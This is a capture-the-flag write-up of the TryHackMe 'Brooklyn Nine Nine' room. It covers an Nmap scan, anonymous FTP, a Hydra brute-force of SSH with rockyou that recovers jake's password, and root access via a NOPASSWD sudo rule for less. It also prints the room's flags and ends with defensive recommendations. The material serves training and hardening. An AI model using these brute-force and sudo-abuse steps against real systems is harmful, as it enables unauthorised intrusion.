

# Brooklyn Nine Nine Write-up

## Brooklyn Nine Nine Write-up

### Challenge information

| Field    | Value                                                             |
| -------- | ----------------------------------------------------------------- |
| Platform | TryHackMe                                                         |
| Room     | [Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine) |
| Target   | `10.114.159.108` _(lab-session value)_                            |
| Scope    | Authorized TryHackMe training environment                         |

### Overview

This write-up follows the recorded solve path for the Brooklyn Nine Nine room. Service enumeration identified anonymous FTP, SSH, and HTTP. A note downloaded through FTP named `jake` and warned about a weak password. A password audit recovered Jake's SSH password. The `sudo` policy then allowed `less` to run as root without a password, enabling root-level command execution through an interactive pager feature.

### Table of contents

* [Tools used](brooklyn-nine-nine-write-up.md#tools-used)
* [Initial reconnaissance](brooklyn-nine-nine-write-up.md#initial-reconnaissance)
* [Anonymous FTP enumeration](brooklyn-nine-nine-write-up.md#anonymous-ftp-enumeration)
* [SSH password audit](brooklyn-nine-nine-write-up.md#ssh-password-audit)
* [User access and sudo enumeration](brooklyn-nine-nine-write-up.md#user-access-and-sudo-enumeration)
* [Root access through `less`](brooklyn-nine-nine-write-up.md#root-access-through-less)
* [Flag retrieval](brooklyn-nine-nine-write-up.md#flag-retrieval)
* [Attack chain](brooklyn-nine-nine-write-up.md#attack-chain)
* [Vulnerability analysis](brooklyn-nine-nine-write-up.md#vulnerability-analysis)
* [Defensive recommendations](brooklyn-nine-nine-write-up.md#defensive-recommendations)
* [Evidence integrity and limitations](brooklyn-nine-nine-write-up.md#evidence-integrity-and-limitations)

### Tools used

* Nmap
* FTP client
* Hydra
* SSH
* `sudo`
* `less`
* Linux command-line utilities

### Initial reconnaissance

A TCP SYN scan of the most common ports identified three exposed services:

```bash
nmap --top-ports 1000 -sS 10.114.159.108 -open
```

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

A follow-up version and script scan provided service details:

```bash
nmap -A 10.114.159.108
```

Relevant output:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst:
|   FTP server status:
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

The FTP service was the first productive path. Nmap confirmed that anonymous authentication was enabled and identified a downloadable file named `note_to_jake.txt`. HTTP was identified but no HTTP exploitation path appears in the recorded notes.

### Anonymous FTP enumeration

The FTP service accepted the `anonymous` account:

```bash
ftp 10.114.159.108
```

```
Connected to 10.114.159.108.
220 (vsFTPd 3.0.3)
Name (10.114.159.108:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Listing the FTP root showed one file:

```
ftp> ls
229 Entering Extended Passive Mode (|||37045|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
```

The file was downloaded and reviewed:

```
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
...
226 Transfer complete.
```

```bash
cat note_to_jake.txt
```

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

This note established two useful facts. It identified `jake` as a likely account name, and it indicated that the password was weak. It did not disclose a password directly.

### SSH password audit

The FTP note justified a targeted password audit against SSH for the `jake` account:

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.114.159.108
```

Observed result:

```
[22][ssh] host: 10.114.159.108   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
```

The recovered credentials were:

```
Username: jake
Password: 987654321
```

This attack was performed only against the authorized TryHackMe room. The result demonstrates why predictable passwords remain vulnerable to common password lists.

### User access and sudo enumeration

The recovered password authenticated successfully over SSH:

```bash
ssh jake@10.114.159.108
```

The session confirmed the `jake` account and exposed additional home directories:

```
jake@brookly_nine_nine:~$ ls ../
amy  holt  jake
```

The next step was to review Jake's delegated privileges:

```bash
sudo -l
```

```
User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

`NOPASSWD` means Jake can execute the specified command with elevated privileges without supplying a password. The important detail is the allowed binary: `less` is an interactive pager, not a restricted read-only utility. Interactive programs can expose shell escapes or other execution features, making them unsafe sudo targets unless specifically hardened.

### Root access through `less`

The allowed command was launched as root against a readable file:

```bash
sudo less /etc/hosts
```

The recorded session then showed a root shell and direct privilege verification:

```
# id
uid=0(root) gid=0(root) groups=0(root)
```

This confirms root-level command execution. The notes do not capture the exact interactive `less` escape entered to launch the shell, so it is not invented here. The essential finding is that the unrestricted `sudo` rule for `/usr/bin/less` enabled a root shell in the lab.

Several environment-variable attempts were also recorded before the successful method. For example, `sudo` rejected an attempt to preserve `VISUAL`:

```
sudo: sorry, you are not allowed to set the following environment variables: VISUAL
```

This did not prevent exploitation because the permitted interactive pager itself provided a path to command execution.

### Flag retrieval

The user flag was read from Holt's home directory after root access:

```bash
cat holt/user.txt
```

```
ee11cbb19052e40b07aac0ca060c23ee
```

The root flag was then read from `/root/root.txt`:

```bash
cat /root/root.txt
```

```
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```

The observed root flag value was:

```
63a9f0ea7bb98050796b649e85481845
```

These values were observed during the completed TryHackMe lab session.

### Attack chain



### Vulnerability analysis

#### Anonymous FTP disclosure

Anonymous FTP exposed an internal note without authentication. The note disclosed an account name and a password-quality problem, which made subsequent password guessing focused and practical.

#### Weak SSH password

The password `987654321` was recovered from RockYou during a targeted audit. Its predictability made password-based SSH authentication susceptible to a common wordlist attack.

#### Unsafe sudo delegation

Jake could execute `/usr/bin/less` as any user without a password. `less` is designed for interactive use and can provide command-execution features. Granting it unrestricted sudo access effectively granted root command execution.

### Defensive recommendations

1. Disable anonymous FTP unless there is a documented business requirement.
2. Avoid placing internal notes, usernames, or operational details on public file-transfer services.
3. Prefer SFTP or FTPS. The scan showed FTP control and data connections were plaintext.
4. Enforce strong, unique account passwords and block known compromised passwords.
5. Apply login throttling and monitoring to SSH authentication attempts.
6. Prefer SSH keys over password authentication where possible.
7. Restrict sudo to purpose-built, non-interactive commands with fixed arguments.
8. Do not grant `sudo` access to editors, pagers, interpreters, or other programs that can invoke commands.
9. Periodically review `sudoers` rules and validate that each delegation supports least privilege.

### Evidence integrity and limitations

* Commands and output are based on the supplied authorized lab-session notes.
* The target IP is a temporary TryHackMe lab-session value.
* The detailed Nmap scan confirmed HTTP/80, but the supplied notes contain no web-enumeration or web-exploitation path.
* The exact interactive `less` escape used to obtain the root shell was not captured. This write-up therefore documents the observed root shell and the unsafe sudo rule without fabricating the missing keystrokes.
* The initial FTP attempt against `10.114.259.108` was interrupted and is not part of the successful path.
* Password auditing described here was limited to the intentionally vulnerable TryHackMe environment.

### Final summary

The room was compromised through a short but impactful chain. Anonymous FTP exposed a note naming Jake and describing a weak password. A targeted SSH password audit recovered Jake's credentials. Jake's unrestricted passwordless access to `less` through `sudo` then enabled root-level command execution. The key defensive lessons are to protect internal information, use resilient authentication, and never delegate privileged access to interactive binaries without strict controls.
